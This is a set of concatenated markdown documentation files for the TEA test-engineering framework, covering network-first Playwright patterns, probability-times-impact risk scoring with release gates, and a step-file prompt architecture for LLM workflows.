- Under load (API slower)
- Network variability (random)
- Scaling test suite (100 → 1000 tests)

**Network-first prevents these issues before they appear.**

### "Too Much Boilerplate"

**Problem:** `waitForResponse` is verbose, repeated in every test.

**Solution:** Use Playwright Utils `interceptNetworkCall` - built-in fixture that reduces boilerplate.

**Vanilla Playwright (Repetitive):**

```typescript
test('test 1', async ({ page }) => {
  const promise = page.waitForResponse((resp) => resp.url().includes('/api/submit') && resp.ok());
  await page.click('button');
  await promise;
});

test('test 2', async ({ page }) => {
  const promise = page.waitForResponse((resp) => resp.url().includes('/api/load') && resp.ok());
  await page.click('button');
  await promise;
});
// Repeated pattern in every test
```

**With Playwright Utils (Cleaner):**

```typescript
import { test } from '@seontechnologies/playwright-utils/fixtures';

test('test 1', async ({ page, interceptNetworkCall }) => {
  const submitCall = interceptNetworkCall({ url: '**/api/submit' });
  await page.click('button');
  const { status, responseJson } = await submitCall;
  expect(status).toBe(200);
});

test('test 2', async ({ page, interceptNetworkCall }) => {
  const loadCall = interceptNetworkCall({ url: '**/api/load' });
  await page.click('button');
  const { responseJson } = await loadCall;
  // Automatic JSON parsing, cleaner API
});
```

**Benefits:**

- Less boilerplate (fixture handles complexity)
- Automatic JSON parsing
- Glob pattern matching (`**/api/**`)
- Consistent API across all tests

See [Integrate Playwright Utils](/brain/knowledge/docs_legacy/how-to/customization/integrate-playwright-utils.md#intercept-network-call) for setup.

## Technical Implementation

For detailed network-first patterns, see the knowledge base:

- [Knowledge Base Index - Network & Reliability](../../../vault/archives/archive_legacy/AstrBot/docs/en/use/knowledge-base.md)
- [Complete Knowledge Base Index](../../../vault/archives/archive_legacy/AstrBot/docs/en/use/knowledge-base.md)

## Related Concepts

**Core TEA Concepts:**

- [Test Quality Standards](/brain/knowledge/docs_legacy/explanation/test-quality-standards.md) - Determinism requires network-first
- [Risk-Based Testing](/brain/knowledge/docs_legacy/explanation/risk-based-testing.md) - High-risk features need reliable tests

**Technical Patterns:**

- [Fixture Architecture](/brain/knowledge/docs_legacy/explanation/fixture-architecture.md) - Network utilities as fixtures
- [Knowledge Base System](/brain/knowledge/docs_legacy/explanation/knowledge-base-system.md) - Network patterns in knowledge base

**Overview:**

- [TEA Overview](/brain/knowledge/docs_legacy/explanation/tea-overview.md) - Network-first in workflows
- [Testing as Engineering](/brain/knowledge/docs_legacy/explanation/testing-as-engineering.md) - Why flakiness matters

## Practical Guides

**Workflow Guides:**

- [How to Run Test Review](/brain/knowledge/docs_legacy/how-to/workflows/run-test-review.md) - Review for hard waits
- [How to Run ATDD](/brain/knowledge/docs_legacy/how-to/workflows/run-atdd.md) - Generate network-first tests
- [How to Run Automate](/brain/knowledge/docs_legacy/how-to/workflows/run-automate.md) - Expand with network patterns

**Use-Case Guides:**

- [Using TEA with Existing Tests](/brain/knowledge/docs_legacy/how-to/brownfield/use-tea-with-existing-tests.md) - Fix flaky legacy tests

**Customization:**

- [Integrate Playwright Utils](/brain/knowledge/docs_legacy/how-to/customization/integrate-playwright-utils.md) - Network utilities (recorder, interceptor, error monitor)

## Reference

- [TEA Command Reference](../bmad_repo/commands.md) - All workflows use network-first
- [Knowledge Base Index](../../../vault/archives/archive_legacy/AstrBot/docs/en/use/knowledge-base.md) - Network-first fragment
- [Glossary](../INDEX.md#test-architect-tea-concepts) - Network-first pattern term

---

Generated with [BMad Method](https://bmad-method.org) - TEA (Test Engineering Architect)
```

## File: `brain/knowledge/docs_legacy/explanation/risk-based-testing.md`
```markdown
---
title: 'Risk-Based Testing Explained'
description: Understanding how TEA uses probability × impact scoring to prioritize testing effort
---

# Risk-Based Testing Explained

Risk-based testing is TEA's core principle: testing depth scales with business impact. Instead of testing everything equally, focus effort where failures hurt most.

## Overview

Traditional testing approaches treat all features equally:

- Every feature gets same test coverage
- Same level of scrutiny regardless of impact
- No systematic prioritization
- Testing becomes checkbox exercise

**Risk-based testing asks:**

- What's the probability this will fail?
- What's the impact if it does fail?
- How much testing is appropriate for this risk level?

**Result:** Testing effort matches business criticality.

## The Problem

### Equal Testing for Unequal Risk

```markdown
Feature A: User login (critical path, millions of users)
Feature B: Export to PDF (nice-to-have, rarely used)

Traditional approach:

- Both get 10 tests
- Both get same review scrutiny
- Both take same development time

Problem: Wasting effort on low-impact features while under-testing critical paths.
```

### No Objective Prioritization

```markdown
PM: "We need more tests for checkout"
QA: "How many tests?"
PM: "I don't know... a lot?"
QA: "How do we know when we have enough?"
PM: "When it feels safe?"

Problem: Subjective decisions, no data, political debates.
```

## The Solution: Probability × Impact Scoring

### Risk Score = Probability × Impact

**Probability** (How likely to fail?)

- **1 (Low):** Stable, well-tested, simple logic
- **2 (Medium):** Moderate complexity, some unknowns
- **3 (High):** Complex, untested, many edge cases

**Impact** (How bad if it fails?)

- **1 (Low):** Minor inconvenience, few users affected
- **2 (Medium):** Degraded experience, workarounds exist
- **3 (High):** Critical path broken, business impact

**Score Range:** 1-9

#### Risk Scoring Matrix

```mermaid
%%{init: {'theme':'base', 'themeVariables': { 'fontSize':'14px'}}}%%
graph TD
    subgraph Matrix[" "]
        direction TB
        subgraph Impact3["Impact: HIGH (3)"]
            P1I3["Score: 3<br/>Low Risk"]
            P2I3["Score: 6<br/>HIGH RISK<br/>Mitigation Required"]
            P3I3["Score: 9<br/>CRITICAL<br/>Blocks Release"]
        end
        subgraph Impact2["Impact: MEDIUM (2)"]
            P1I2["Score: 2<br/>Low Risk"]
            P2I2["Score: 4<br/>Medium Risk"]
            P3I2["Score: 6<br/>HIGH RISK<br/>Mitigation Required"]
        end
        subgraph Impact1["Impact: LOW (1)"]
            P1I1["Score: 1<br/>Low Risk"]
            P2I1["Score: 2<br/>Low Risk"]
            P3I1["Score: 3<br/>Low Risk"]
        end
    end

    Prob1["Probability: LOW (1)"] -.-> P1I1
    Prob1 -.-> P1I2
    Prob1 -.-> P1I3

    Prob2["Probability: MEDIUM (2)"] -.-> P2I1
    Prob2 -.-> P2I2
    Prob2 -.-> P2I3

    Prob3["Probability: HIGH (3)"] -.-> P3I1
    Prob3 -.-> P3I2
    Prob3 -.-> P3I3

    style P3I3 fill:#f44336,stroke:#b71c1c,stroke-width:3px,color:#fff
    style P2I3 fill:#ff9800,stroke:#e65100,stroke-width:2px,color:#000
    style P3I2 fill:#ff9800,stroke:#e65100,stroke-width:2px,color:#000
    style P2I2 fill:#fff9c4,stroke:#f57f17,stroke-width:1px,color:#000
    style P1I1 fill:#c8e6c9,stroke:#2e7d32,stroke-width:1px,color:#000
    style P2I1 fill:#c8e6c9,stroke:#2e7d32,stroke-width:1px,color:#000
    style P3I1 fill:#c8e6c9,stroke:#2e7d32,stroke-width:1px,color:#000
    style P1I2 fill:#c8e6c9,stroke:#2e7d32,stroke-width:1px,color:#000
    style P1I3 fill:#c8e6c9,stroke:#2e7d32,stroke-width:1px,color:#000
```



**Legend:**

- 🔴 Red (Score 9): CRITICAL - Blocks release
- 🟠 Orange (Score 6-8): HIGH RISK - Mitigation required
- 🟡 Yellow (Score 4-5): MEDIUM - Mitigation recommended
- 🟢 Green (Score 1-3): LOW - Optional mitigation

### Scoring Examples

**Score 9 (Critical):**

```
Feature: Payment processing
Probability: 3 (complex third-party integration)
Impact: 3 (broken payments = lost revenue)
Score: 3 × 3 = 9

Action: Extensive testing required
- E2E tests for all payment flows
- API tests for all payment scenarios
- Error handling for all failure modes
- Security testing for payment data
- Load testing for high traffic
- Monitoring and alerts
```

**Score 1 (Low):**

```
Feature: Change profile theme color
Probability: 1 (simple UI toggle)
Impact: 1 (cosmetic only)
Score: 1 × 1 = 1

Action: Minimal testing
- One E2E smoke test
- Skip edge cases
- No API tests needed
```

**Score 6 (Medium-High):**

```
Feature: User profile editing
Probability: 2 (moderate complexity)
Impact: 3 (users can't update info)
Score: 2 × 3 = 6

Action: Focused testing
- E2E test for happy path
- API tests for CRUD operations
- Validation testing
- Skip low-value edge cases
```

## How It Works in TEA

### 1. Risk Categories

TEA assesses risk across 6 categories:

**TECH** - Technical debt, architecture fragility

```
Example: Migrating from REST to GraphQL
Probability: 3 (major architectural change)
Impact: 3 (affects all API consumers)
Score: 9 - Extensive integration testing required
```

**SEC** - Security vulnerabilities

```
Example: Adding OAuth integration
Probability: 2 (third-party dependency)
Impact: 3 (auth breach = data exposure)
Score: 6 - Security testing mandatory
```

**PERF** - Performance degradation

```
Example: Adding real-time notifications
Probability: 2 (WebSocket complexity)
Impact: 2 (slower experience)
Score: 4 - Load testing recommended
```

**DATA** - Data integrity, corruption

```
Example: Database migration
Probability: 2 (schema changes)
Impact: 3 (data loss unacceptable)
Score: 6 - Data validation tests required
```

**BUS** - Business logic errors

```
Example: Discount calculation
Probability: 2 (business rules complex)
Impact: 3 (wrong prices = revenue loss)
Score: 6 - Business logic tests mandatory
```

**OPS** - Operational issues

```
Example: Logging system update
Probability: 1 (straightforward)
Impact: 2 (debugging harder without logs)
Score: 2 - Basic smoke test sufficient
```

### 2. Test Priorities (P0-P3)

Risk scores inform test priorities (but aren't the only factor):

**P0 - Critical Path**

- **Risk Scores:** Typically 6-9 (high risk)
- **Other Factors:** Revenue impact, security-critical, regulatory compliance, frequent usage
- **Coverage Target:** 100%
- **Test Levels:** E2E + API
- **Example:** Login, checkout, payment processing

**P1 - High Value**

- **Risk Scores:** Typically 4-6 (medium-high risk)
- **Other Factors:** Core user journeys, complex logic, integration points
- **Coverage Target:** 90%
- **Test Levels:** API + selective E2E
- **Example:** Profile editing, search, filters

**P2 - Medium Value**

- **Risk Scores:** Typically 2-4 (medium risk)
- **Other Factors:** Secondary features, admin functionality, reporting
- **Coverage Target:** 50%
- **Test Levels:** API happy path only
- **Example:** Export features, advanced settings

**P3 - Low Value**

- **Risk Scores:** Typically 1-2 (low risk)
- **Other Factors:** Rarely used, nice-to-have, cosmetic
- **Coverage Target:** 20% (smoke test)
- **Test Levels:** E2E smoke test only
- **Example:** Theme customization, experimental features

**Note:** Priorities consider risk scores plus business context (usage frequency, user impact, etc.). See [Test Priorities Matrix](../../../vault/archives/archive_legacy/AstrBot/docs/en/use/knowledge-base.md#quality-standards) for complete criteria.

### 3. Mitigation Plans

**Scores ≥6 require documented mitigation:**

```markdown
## Risk Mitigation

**Risk:** Payment integration failure (Score: 9)

**Mitigation Plan:**

- Create comprehensive test suite (20+ tests)
- Add payment sandbox environment
- Implement retry logic with idempotency
- Add monitoring and alerts
- Document rollback procedure

**Owner:** Backend team lead
**Deadline:** Before production deployment
**Status:** In progress
```

**Gate Rules:**

- **Score = 9** (Critical): Mandatory FAIL - blocks release without mitigation
- **Score 6-8** (High): Requires mitigation plan, becomes CONCERNS if incomplete
- **Score 4-5** (Medium): Mitigation recommended but not required
- **Score 1-3** (Low): No mitigation needed

## Comparison: Traditional vs Risk-Based

### Traditional Approach

```typescript
// Test everything equally
describe('User profile', () => {
  test('should display name');
  test('should display email');
  test('should display phone');
  test('should display address');
  test('should display bio');
  test('should display avatar');
  test('should display join date');
  test('should display last login');
  test('should display theme preference');
  test('should display language preference');
  // 10 tests for profile display (all equal priority)
});
```

**Problems:**

- Same effort for critical (name) vs trivial (theme)
- No guidance on what matters
- Wastes time on low-value tests

### Risk-Based Approach

```typescript
// Test based on risk

describe('User profile - Critical (P0)', () => {
  test('should display name and email'); // Score: 9 (identity critical)
  test('should allow editing name and email');
  test('should validate email format');
  test('should prevent unauthorized edits');
  // 4 focused tests on high-risk areas
});

describe('User profile - High Value (P1)', () => {
  test('should upload avatar'); // Score: 6 (users care about this)
  test('should update bio');
  // 2 tests for high-value features
});

// P2: Theme preference - single smoke test
// P3: Last login display - skip (read-only, low value)
```

**Benefits:**

- 6 focused tests vs 10 unfocused tests
- Effort matches business impact
- Clear priorities guide development
- No wasted effort on trivial features

## When to Use Risk-Based Testing

### Always Use For:

**Enterprise projects:**

- High stakes (revenue, compliance, security)
- Many features competing for test effort
- Need objective prioritization

**Large codebases:**

- Can't test everything exhaustively
- Need to focus limited QA resources
- Want data-driven decisions

**Regulated industries:**

- Must justify testing decisions
- Auditors want risk assessments
- Compliance requires evidence

### Consider Skipping For:

**Tiny projects:**

- 5 features total
- Can test everything thoroughly
- Risk scoring is overhead

**Prototypes:**

- Throw-away code
- Speed over quality
- Learning experiments

## Real-World Example

### Scenario: E-Commerce Checkout Redesign

**Feature:** Redesigning checkout flow from 5 steps to 3 steps

**Risk Assessment:**

| Component                 | Probability | Impact | Score | Priority | Testing               |
| ------------------------- | ----------- | ------ | ----- | -------- | --------------------- |
| **Payment processing**    | 3           | 3      | 9     | P0       | 15 E2E + 20 API tests |
| **Order validation**      | 2           | 3      | 6     | P1       | 5 E2E + 10 API tests  |
| **Shipping calculation**  | 2           | 2      | 4     | P1       | 3 E2E + 8 API tests   |
| **Promo code validation** | 2           | 2      | 4     | P1       | 2 E2E + 5 API tests   |
| **Gift message**          | 1           | 1      | 1     | P3       | 1 E2E smoke test      |

**Test Budget:** 40 hours

**Allocation:**

- Payment (Score 9): 20 hours (50%)
- Order validation (Score 6): 8 hours (20%)
- Shipping (Score 4): 6 hours (15%)
- Promo codes (Score 4): 4 hours (10%)
- Gift message (Score 1): 2 hours (5%)

**Result:** 50% of effort on highest-risk feature (payment), proportional allocation for others.

### Without Risk-Based Testing:

**Equal allocation:** 8 hours per component = wasted effort on gift message, under-testing payment.

**Result:** Payment bugs slip through (critical), perfect testing of gift message (trivial).

## Mitigation Strategies by Risk Level

### Score 9: Mandatory Mitigation (Blocks Release)

```markdown
**Gate Impact:** FAIL - Cannot deploy without mitigation

**Actions:**

- Comprehensive test suite (E2E, API, security)
- Multiple test environments (dev, staging, prod-mirror)
- Load testing and performance validation
- Security audit and penetration testing
- Monitoring and alerting
- Rollback plan documented
- On-call rotation assigned

**Cannot deploy until score is mitigated below 9.**
```

### Score 6-8: Required Mitigation (Gate: CONCERNS)

```markdown
**Gate Impact:** CONCERNS - Can deploy with documented mitigation plan

**Actions:**

- Targeted test suite (happy path + critical errors)
- Test environment setup
- Monitoring plan
- Document mitigation and owners

**Can deploy with approved mitigation plan.**
```

### Score 4-5: Recommended Mitigation

```markdown
**Gate Impact:** Advisory - Does not affect gate decision

**Actions:**

- Basic test coverage
- Standard monitoring
- Document known limitations

**Can deploy, mitigation recommended but not required.**
```

### Score 1-3: Optional Mitigation

```markdown
**Gate Impact:** None

**Actions:**

- Smoke test if desired
- Feature flag for easy disable (optional)

**Can deploy without mitigation.**
```

## Technical Implementation

For detailed risk governance patterns, see the knowledge base:

- [Knowledge Base Index - Risk & Gates](../../../vault/archives/archive_legacy/AstrBot/docs/en/use/knowledge-base.md)
- [TEA Command Reference - `test-design`](../bmad_repo/commands.md#test-design)

### Risk Scoring Matrix

TEA uses this framework in `test-design`:

```
           Impact
           1    2    3
      ┌────┬────┬────┐
    1 │ 1  │ 2  │ 3  │ Low risk
P   2 │ 2  │ 4  │ 6  │ Medium risk
r   3 │ 3  │ 6  │ 9  │ High risk
o     └────┴────┴────┘
b      Low  Med  High
```

### Gate Decision Rules

| Score   | Mitigation Required       | Gate Impact            |
| ------- | ------------------------- | ---------------------- |
| **9**   | Mandatory, blocks release | FAIL if no mitigation  |
| **6-8** | Required, documented plan | CONCERNS if incomplete |
| **4-5** | Recommended               | Advisory only          |
| **1-3** | Optional                  | No impact              |

#### Gate Decision Flow



## Common Misconceptions

### "Risk-based = Less Testing"

**Wrong:** Risk-based testing often means MORE testing where it matters.

**Example:**

- Traditional: 50 tests spread equally
- Risk-based: 70 tests focused on P0/P1 (more total, better allocated)

### "Low Priority = Skip Testing"

**Wrong:** P3 still gets smoke tests.

**Correct:**

- P3: Smoke test (feature works at all)
- P2: Happy path (feature works correctly)
- P1: Happy path + errors
- P0: Comprehensive (all scenarios)

### "Risk Scores Are Permanent"

**Wrong:** Risk changes over time.

**Correct:**

- Initial launch: Payment is Score 9 (untested integration)
- After 6 months: Payment is Score 6 (proven in production)
- Re-assess risk quarterly

## Related Concepts

**Core TEA Concepts:**

- [Test Quality Standards](/brain/knowledge/docs_legacy/explanation/test-quality-standards.md) - Quality complements risk assessment
- [Engagement Models](/brain/knowledge/docs_legacy/explanation/engagement-models.md) - When risk-based testing matters most
- [Knowledge Base System](/brain/knowledge/docs_legacy/explanation/knowledge-base-system.md) - How risk patterns are loaded

**Technical Patterns:**

- [Fixture Architecture](/brain/knowledge/docs_legacy/explanation/fixture-architecture.md) - Building risk-appropriate test infrastructure
- [Network-First Patterns](/brain/knowledge/docs_legacy/explanation/network-first-patterns.md) - Quality patterns for high-risk features

**Overview:**

- [TEA Overview](/brain/knowledge/docs_legacy/explanation/tea-overview.md) - Risk assessment in TEA lifecycle
- [Testing as Engineering](/brain/knowledge/docs_legacy/explanation/testing-as-engineering.md) - Design philosophy

## Practical Guides

**Workflow Guides:**

- [How to Run Test Design](/brain/knowledge/docs_legacy/how-to/workflows/run-test-design.md) - Apply risk scoring
- [How to Run Trace](/brain/knowledge/docs_legacy/how-to/workflows/run-trace.md) - Gate decisions based on risk
- [How to Run NFR Assessment](/brain/knowledge/docs_legacy/how-to/workflows/run-nfr-assess.md) - NFR risk assessment

**Use-Case Guides:**

- [Running TEA for Enterprise](/brain/knowledge/docs_legacy/how-to/brownfield/use-tea-for-enterprise.md) - Enterprise risk management

## Reference

- [TEA Command Reference](../bmad_repo/commands.md) - `test-design`, `nfr-assess`, `trace`
- [Knowledge Base Index](../../../vault/archives/archive_legacy/AstrBot/docs/en/use/knowledge-base.md) - Risk governance fragments
- [Glossary](../INDEX.md#test-architect-tea-concepts) - Risk-based testing term

---

Generated with [BMad Method](https://bmad-method.org) - TEA (Test Engineering Architect)
```

## File: `brain/knowledge/docs_legacy/explanation/step-file-architecture.md`
```markdown
---
title: TEA Step-File Architecture
description: Explanation of step-file architecture for 100% LLM compliance
---

# TEA Step-File Architecture

**Version**: 1.0
**Date**: 2026-01-27
**Purpose**: Explain step-file architecture for 100% LLM compliance

---

## Why Step Files?

### The Problem

Traditional workflow instructions suffer from "too much context" syndrome:

- **LLM Improvisation**: When given large instruction files, LLMs often improvise or skip steps
- **Non-Compliance**: Instructions like "analyze codebase then generate tests" are too vague
- **Context Overload**: 5000-word instruction files overwhelm the 200k context window
- **Unpredictable Output**: Same workflow produces different results each run

### The Solution: Step Files

**Step files** break workflows into granular, self-contained instruction units:

- **One Step = One Clear Action**: Each step file contains exactly one task
- **Explicit Exit Conditions**: LLM knows exactly when to proceed to next step
- **Context Injection**: Each step repeats necessary information (no assumptions)
- **Prevents Improvisation**: Strict "ONLY do what this step says" enforcement

**Result**: **100% LLM compliance** - workflows produce consistent, predictable, high-quality output every time.

---

## Architecture Overview

### Before Step Files (Monolithic)

```
workflow/
├── workflow.yaml          # Metadata
├── instructions.md        # 5000 words of instructions ⚠️
├── checklist.md          # Validation checklist
└── templates/            # Output templates
```

**Problems**:

- Instructions too long → LLM skims or improvises
- No clear stopping points → LLM keeps going
- Vague instructions → LLM interprets differently each time

### After Step Files (Granular)

```
workflow/
├── workflow.yaml          # Metadata (points to step files)
├── checklist.md          # Validation checklist
├── templates/            # Output templates
└── steps/
    ├── step-1-setup.md          # 200-500 words, one action
    ├── step-2-analyze.md        # 200-500 words, one action
    ├── step-3-generate.md       # 200-500 words, one action
    └── step-4-validate.md       # 200-500 words, one action
```

**Benefits**:

- Granular instructions → LLM focuses on one task
- Clear exit conditions → LLM knows when to stop
- Repeated context → LLM has all necessary info
- Subagent support → Parallel execution possible

---

## Step File Principles

### 1. Just-In-Time Loading

**Only load the current step file** - never load all steps at once.

```yaml
# workflow.yaml
steps:
  - file: steps/step-1-setup.md
    next: steps/step-2-analyze.md
  - file: steps/step-2-analyze.md
    next: steps/step-3-generate.md
```

**Enforcement**: Agent reads **one step file**, executes it, then loads **next step file**.

### 2. Context Injection

**Each step repeats necessary context** - no assumptions about what LLM remembers.

Example (step-3-generate.md):

```markdown
## Context (from previous steps)

You have:

- Analyzed codebase and identified 3 features: Auth, Checkout, Profile
- Loaded knowledge fragments: fixture-architecture, api-request, network-first
- Determined test framework: Playwright with TypeScript

## Your Task (Step 3 Only)

Generate API tests for the 3 features identified above...
```

### 3. Explicit Exit Conditions

**Each step clearly states when to proceed** - no ambiguity.

Example:

```markdown
## Exit Condition

You may proceed to Step 4 when:

- ✅ All API tests generated and saved to files
- ✅ Test files use knowledge fragment patterns
- ✅ All tests have .spec.ts extension
- ✅ Tests are syntactically valid TypeScript

Do NOT proceed until all conditions met.
```

### 4. Strict Action Boundaries

**Each step forbids actions outside its scope** - prevents LLM wandering.

Example:

```markdown
## What You MUST Do

- Generate API tests only (not E2E, not fixtures)
- Use patterns from loaded knowledge fragments
- Save to tests/api/ directory

## What You MUST NOT Do

- ❌ Do NOT generate E2E tests (that's Step 4)
- ❌ Do NOT run tests yet (that's Step 5)
- ❌ Do NOT refactor existing code
- ❌ Do NOT add features not requested
```

### 5. Subagent Support

**Independent steps can run in parallel subagents** - massive performance gain.

Example (automate workflow):

```
Step 1-2: Sequential (setup)
Step 3: Subagent A (API tests) + Subagent B (E2E tests) - PARALLEL
Step 4: Sequential (aggregate)
```

See [subagent-architecture.md](./subagent-architecture.md) for details.

---

## TEA Workflow Step-File Patterns

### Pattern 1: Sequential Steps (Simple Workflows)

**Used by**: framework, ci

```
Step 1: Setup → Step 2: Configure → Step 3: Generate → Step 4: Validate
```

**Characteristics**:

- Each step depends on previous step output
- No parallelization possible
- Simpler, run-once workflows

### Pattern 2: Parallel Generation (Test Workflows)

**Used by**: automate, atdd

```
Step 1: Setup
Step 2: Load knowledge
Step 3: PARALLEL
  ├── Subagent A: Generate API tests
  └── Subagent B: Generate E2E tests
Step 4: Aggregate + validate
```

**Characteristics**:

- Independent generation tasks run in parallel
- 40-50% performance improvement
- Most frequently used workflows

### Pattern 3: Parallel Validation (Quality Workflows)

**Used by**: test-review, nfr-assess

```
Step 1: Load context
Step 2: PARALLEL
  ├── Subagent A: Check dimension 1
  ├── Subagent B: Check dimension 2
  ├── Subagent C: Check dimension 3
  └── (etc.)
Step 3: Aggregate scores
```

**Characteristics**:

- Independent quality checks run in parallel
- 60-70% performance improvement
- Complex scoring/aggregation logic

### Pattern 4: Two-Phase Workflow (Dependency Workflows)

**Used by**: trace

```
Phase 1: Generate coverage matrix → Output to temp file
Phase 2: Read matrix → Apply decision tree → Generate gate decision
```

**Characteristics**:

- Phase 2 depends on Phase 1 output
- Not parallel, but clean separation of concerns
- Subagent-like phase isolation

### Pattern 5: Risk-Based Planning (Design Workflows)

**Used by**: test-design

```
Step 1: Load context (story/epic)
Step 2: Load knowledge fragments
Step 3: Assess risk (probability × impact)
Step 4: Generate scenarios
Step 5: Prioritize (P0-P3)
Step 6: Output test design document
```

**Characteristics**:

- Sequential risk assessment workflow
- Heavy knowledge fragment usage
- Structured output (test design document)

---

## Knowledge Fragment Integration

### Loading Fragments in Step Files

Step files explicitly load knowledge fragments:

```markdown
## Step 2: Load Knowledge Fragments

Consult `{project-root}/_bmad/tea/agents/bmad-tea/resources/tea-index.csv` and load:

1. **fixture-architecture** - For composable fixture patterns
2. **api-request** - For API test patterns
3. **network-first** - For network handling patterns

Read each fragment from `{project-root}/_bmad/tea/agents/bmad-tea/resources/knowledge/`.

These fragments are your quality guidelines - use their patterns in generated tests.
```

### Fragment Usage Enforcement

Step files enforce fragment patterns:

```markdown
## Requirements

Generated tests MUST follow patterns from loaded fragments:

✅ Use fixture composition pattern (fixture-architecture)
✅ Use await apiRequest() helper (api-request)
✅ Intercept before navigate (network-first)

❌ Do NOT use custom patterns
❌ Do NOT skip fragment patterns
```

---

## Step File Template

### Standard Structure

Every step file follows this structure:

```markdown
# Step N: [Action Name]

## Context (from previous steps)

- What was accomplished in Steps 1, 2, ..., N-1
- Key information LLM needs to know
- Current state of workflow

## Your Task (Step N Only)

[Clear, explicit description of single task]

## Requirements

- ✅ Requirement 1
- ✅ Requirement 2
- ✅ Requirement 3

## What You MUST Do

- Action 1
- Action 2
- Action 3

## What You MUST NOT Do

- ❌ Don't do X (that's Step N+1)
- ❌ Don't do Y (out of scope)
- ❌ Don't do Z (unnecessary)

## Exit Condition

You may proceed to Step N+1 when:

- ✅ Condition 1 met
- ✅ Condition 2 met
- ✅ Condition 3 met

Do NOT proceed until all conditions met.

## Next Step

Load `steps/step-[N+1]-[action].md` and execute.
```

### Example: Step File for API Test Generation

````markdown
# Step 3A: Generate API Tests (Subagent)

## Context (from previous steps)

You have:

- Analyzed codebase and identified 3 features: Auth, Checkout, Profile
- Loaded knowledge fragments: api-request, data-factories, api-testing-patterns
- Determined test framework: Playwright with TypeScript
- Config: use_playwright_utils = true

## Your Task (Step 3A Only)

Generate API tests for the 3 features identified above.

## Requirements

- ✅ Generate tests for all 3 features
- ✅ Use Playwright Utils `apiRequest()` helper (from api-request fragment)
- ✅ Use data factories for test data (from data-factories fragment)
- ✅ Follow API testing patterns (from api-testing-patterns fragment)
- ✅ TypeScript with proper types
- ✅ Save to tests/api/ directory

## What You MUST Do

1. For each feature (Auth, Checkout, Profile):
   - Create `tests/api/[feature].spec.ts`
   - Import necessary Playwright fixtures
   - Import Playwright Utils helpers (apiRequest)
   - Generate 3-5 API test cases covering happy path + edge cases
   - Use data factories for request bodies
   - Use proper assertions (status codes, response schemas)

2. Follow patterns from knowledge fragments:
   - Use `apiRequest({ method, url, data })` helper
   - Use factory functions for test data (not hardcoded)
   - Test both success and error responses

3. Save all test files to disk

## What You MUST NOT Do

- ❌ Do NOT generate E2E tests (that's Step 3B - parallel subagent)
- ❌ Do NOT generate fixtures yet (that's Step 4)
- ❌ Do NOT run tests yet (that's Step 5)
- ❌ Do NOT use custom fetch/axios (use apiRequest helper)
- ❌ Do NOT hardcode test data (use factories)

## Output Format

Output JSON to `/tmp/automate-api-tests-{timestamp}.json`:

```json
{
  "success": true,
  "tests": [
    {
      "file": "tests/api/auth.spec.ts",
      "content": "[full test file content]",
      "description": "API tests for Auth feature"
    }
  ],
  "fixtures": ["authData", "userData"],
  "summary": "Generated 5 API test cases for 3 features"
}
```
````

## Exit Condition

You may finish this subagent when:

- ✅ All 3 features have API test files
- ✅ All tests use Playwright Utils helpers
- ✅ All tests use data factories
- ✅ JSON output file written to /tmp/

Subagent complete. Main workflow will read output and proceed.

````

---

## Validation & Quality Assurance

### BMad Builder Validation

All 9 TEA workflows score **100%** on BMad Builder validation. Validation reports are stored in `src/workflows/testarch/*/validation-report-*.md`.

**Validation Criteria**:

- ✅ Clear, granular instructions (not too much context)
- ✅ Explicit exit conditions (LLM knows when to stop)
- ✅ Context injection (each step self-contained)
- ✅ Strict action boundaries (prevents improvisation)
- ✅ Subagent support (where applicable)

### Real-Project Testing

All 9 workflows tested with real projects:

- ✅ teach-me-testing: Tested multi-session flow with persisted progress
- ✅ test-design: Tested with real story/epic
- ✅ automate: Tested extensively with real codebases
- ✅ atdd: Tested TDD workflow (failing tests confirmed)
- ✅ test-review: Tested against known good/bad test suites
- ✅ nfr-assess: Tested with complex system
- ✅ trace: Tested coverage matrix + gate decision
- ✅ framework: Tested Playwright/Cypress scaffold
- ✅ ci: Tested GitHub Actions/GitLab CI generation

**Result**: 100% LLM compliance - no improvisation, consistent output.

---

## Maintaining Step Files

### When to Update Step Files

Update step files when:

1. **Knowledge fragments change**: Update fragment loading instructions
2. **New patterns emerge**: Add new requirements/patterns to steps
3. **LLM improvises**: Add stricter boundaries to prevent improvisation
4. **Performance issues**: Split steps further or add subagents
5. **User feedback**: Clarify ambiguous instructions

### Best Practices

1. **Keep steps granular**: 200-500 words per step (not 2000+)
2. **Repeat context**: Don't assume LLM remembers previous steps
3. **Be explicit**: "Generate 3-5 test cases" not "generate some tests"
4. **Forbid out-of-scope actions**: Explicitly list what NOT to do
5. **Test after changes**: Re-run BMad Builder validation after edits

### Anti-Patterns to Avoid

❌ **Too much context**: Steps >1000 words defeat the purpose
❌ **Vague instructions**: "Analyze codebase" - analyze what? how?
❌ **Missing exit conditions**: LLM doesn't know when to stop
❌ **Assumed knowledge**: Don't assume LLM remembers previous steps
❌ **Multiple tasks per step**: One step = one action only

---

## Performance Benefits

### Sequential vs Parallel Execution

**Before Step Files (Sequential)**:

- automate: ~10 minutes (API → E2E → fixtures → validate)
- test-review: ~5 minutes (5 quality checks sequentially)
- nfr-assess: ~12 minutes (4 NFR domains sequentially)

**After Step Files (Parallel Subagents)**:

- automate: ~5 minutes (API + E2E in parallel) - **50% faster**
- test-review: ~2 minutes (all checks in parallel) - **60% faster**
- nfr-assess: ~4 minutes (all domains in parallel) - **67% faster**

**Total time savings**: ~40-60% reduction in workflow execution time.

---

## User Experience

### What Users See

Users don't need to understand step-file architecture internals, but they benefit from:

1. **Consistent Output**: Same input → same output, every time
2. **Faster Workflows**: Parallel execution where possible
3. **Higher Quality**: Knowledge fragments enforced consistently
4. **Predictable Behavior**: No LLM improvisation or surprises

### Progress Indicators

When running workflows, users see:

```
✓ Step 1: Setup complete
✓ Step 2: Knowledge fragments loaded
⟳ Step 3: Generating tests (2 subagents running)
  ├── Subagent A: API tests... ✓
  └── Subagent B: E2E tests... ✓
✓ Step 4: Aggregating results
✓ Step 5: Validation complete
```

---

## Troubleshooting

### Common Issues

**Issue**: LLM still improvising despite step files

- **Diagnosis**: Step instructions too vague
- **Fix**: Add more explicit requirements and forbidden actions

**Issue**: Subagent output not aggregating correctly

- **Diagnosis**: Temp file path mismatch or JSON parsing error
- **Fix**: Check temp file naming convention, verify JSON format

**Issue**: Knowledge fragments not being used

- **Diagnosis**: Fragment loading instructions unclear
- **Fix**: Make fragment usage requirements more explicit

**Issue**: Workflow too slow despite subagents

- **Diagnosis**: Not enough parallelization
- **Fix**: Identify more independent steps for subagent pattern

---

## References

- **Subagent Architecture**: [subagent-architecture.md](./subagent-architecture.md)
